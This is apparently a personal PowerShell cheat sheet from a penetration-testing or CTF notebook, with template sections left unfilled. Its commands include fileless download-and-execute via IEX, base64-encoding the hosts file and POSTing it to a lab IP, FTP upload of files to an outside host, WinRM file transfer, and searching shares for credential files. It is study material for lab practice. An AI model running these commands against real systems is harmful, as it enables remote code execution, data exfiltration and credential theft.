 # powershell

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

Decode base64 to file
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("base64 conten"))
```
^decode-base64-to-file

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
^encode-file-contents-to-base64

Get file MD5 hash
```powershell
Get-FileHash <file> -Algorithm md5 | Select Hash
```
^get-file-md5-hash

Encrypt a file with AES
```bash
Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```
^aes-encyrpt-fi


```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
^downloadfile-method

```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>')
# or
(New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>') | IEX
```
^downloadstring-method-fileless

```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output File Name> -UseBasicParsing
```
^outfile-invoke-webrequest

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
^b64-file-content-variable

```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
^send-b64-post

Upload a file
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
^uploadfile-method

Test WinRM connection
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
^test-winrm-connection

Create PSSession ^577394
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
^new-pssession

Copy file to Windows machine over WinRM connection
```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
^to-transfer-winrm

Copy file from Windows machine over WinRM connection ^b37fdc
```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
^from-transfer-winrm

### Category 2

**Get-ChildItem** is the PowerShell equivalent of dir
```powershell
Get-ChildItem \\192.168.220.129\Finance\
```

can also be used to find how many files are in the shared folder and their sub-directories
```powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

**-Include** can be used to search for specific files
```powershell
Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
```

**Select-String** is the PowerShell equivalent of grep or findstr, using regular expressions to search for text patterns in files
```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```

**New-PSDrive** is the PowerShell equivalent of net use
```powershell
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"
```

New-PSDrive can be used with credentials using a **PSCredential** object.
```powershell
$username = 'plaintext'
$password = 'Password123'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```

### Category 3

Brief description of this category

command syntax ^powershell-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #powershell
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#powershell #tool ^debd90